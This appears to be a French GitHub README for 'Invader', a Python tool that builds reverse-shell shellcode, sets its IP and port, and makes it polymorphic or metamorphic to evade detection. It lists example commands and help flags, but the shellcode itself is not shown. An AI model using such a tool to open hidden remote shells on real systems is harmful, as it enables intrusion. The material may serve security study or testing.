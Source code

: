 # Invader
         ____  ____   __ __   ____  ___      ___  ____  
        |    ||    \ |  |  | /    ||   \    /  _]|    \ 
         |  | |  _  ||  |  ||  o  ||    \  /  [_ |  D  )
         |  | |  |  ||  |  ||     ||  D  ||    _]|    / 
         |  | |  |  ||  :  ||  _  ||     ||   [_ |    \ 
         |  | |  |  | \   / |  |  ||     ||     ||  .  \\
        |____||__|__|  \_/  |__|__||_____||_____||__|\_|

Création automatique d'un reverse shell (via shellcode) à injecter dans un programme (exemple C directement disponible dans le git).
Il y a la possibilité de changer l'ip et le port du reverse shell et de rendre le shell métamorphique et/ou polymorphique.

<---------------------------------------- EXEMPLES ---------------------------------------->  
python ./final/py/invader.py -s ./final/asm/fnl_reverse_shell.asm                                     # Retourne le shellcode  
python ./final/py/invader.py -c ./final/c/fnl_reverse_shell.c                                         # Compile et lance le programme c  
python ./final/py/invader.py -c -s ./final/asm/fnl_reverse_shell.asm                                  # Compile et lance le programme avec le shellcode du fichier asm  
python ./final/py/invader.py -p 4444 -s ./asm/fnl_reverse_shell.asm                                   # Retourne le shellcode du fichier en changeant le port  
python ./final/py/invader.py -i 127.0.0.1 -s ./final/asm/fnl_reverse_shell.asm                        # Retourne le shellcode du fichier en changeant l'ip  
python ./final/py/invader.py -c -s ./final/asm/fnl_reverse_shell.asm -i 127.0.0.1 -p 4444             # Compile et lance le programme avec le shellcode du fichier.asm en changeant l'ip et le port  
python ./final/py/invader.py -c -s ./final/asm/fnl_reverse_shell.asm -i 127.0.0.1 -p 4444 -v -M -P    # Compile et lance le programme avec le shellcode du fichier.asm en changeant l'ip et le port avec le polymorphisme et le metamorphisme activé  
<---------------------------------------- EXEMPLES ---------------------------------------->  
  
<------------------------------------------ HELP ------------------------------------------>  
-h Affiche ce message  
-e Affiche des exemples de commandes  
-v Active le mode verbosité  
-vvv Active le mode haute verbosité (objdump)  
-s Création de lu shellcode  
-c compile un fichier.c et le lance  
-i Changement de l'ip dans le shellCode  
-p Changement du port dans le shellCode  
-M Activation du metamorphisme du shellcode  
-P Activation du polymorphisme du shellcode  
<------------------------------------------ HELP ------------------------------------------>  
